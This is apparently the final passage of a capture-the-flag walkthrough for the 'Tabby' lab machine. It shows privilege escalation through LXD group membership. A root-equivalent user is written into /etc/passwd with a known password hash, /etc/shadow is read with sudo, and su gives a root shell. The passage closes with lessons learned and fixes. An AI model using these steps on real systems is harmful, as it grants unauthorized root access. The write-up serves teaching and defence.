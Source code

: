 Next, add the following entry to the /etc/passwd file.

```text
echo "root2:icmqBaqZ.ZbBU:0:0:root:/root:/bin/bash" >> etc/passwd
```

Now, if we su into root2 with the set password, we should have root privileges.

Let’s test if our privilege escalation techniques were successful.

First, exit the container using the following command.

```text
/mnt/root # exitash@tabby:~$ whoami
ash
```

To test privilege escalation way \#1, try to run the sudo command.

```text
ash@tabby:~$ sudo cat /etc/shadow
root:[redacted]:18429:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
```

As seen in the above listing, we were allowed to run a privileged command without having to enter a password. So way \#1 was successful.

To test privilege escalation way \#2, try to switch to the root2 user using the password “password”.

```text
ash@tabby:~$ su root2
Password: 
root@tabby:/home/ash#
```

As seen in the above listing, we were able to switch into the root2 user who has root privileges. So way \#2 was also successful!

## Lessons Learned <a id="3bd6"></a>

To gain an initial foothold on the box, we exploited one vulnerability:

1. A Local File Inclusion \(LFI\) vulnerability that allowed us to view files on the host. Using this vulnerability, we were able to view the tomcat-users.xml file which gave us access to the Tomcat Manager interface. This could have been easily avoided if the developer properly validated user input.

To escalate privileges on the box, we exploited three vulnerabilities:

1. Use of a weak password. The backup zip file was password protected with a weak password that we were able to crack in a matter of seconds. The user should have used a sufficiently long password that is not easily crackable.
2. Reuse of passwords. The password we obtained from cracking the backup zip file, was reused to horizontally escalate our privileges to the ash user. The user should have instead used a different strong password for his system account.
3. User part of the LXD group. This technically in itself is not technically a vulnerability but an intended functionality. What likely happened, is that this user previously had some form of admin privileges \(part of the sudo group\) on the system and so when LXD was installed it automatically added that user to the LXD group. However, when these privileges were stripped away from the user to make him a less privileged user, the user remained as part of the lxd group. This is why when it was [reported](https://github.com/lxc/lxd/issues/3844) as a vulnerability, the issue was closed cancelled. The obvious fix to this problem, would be to remove the user from the LXD group.

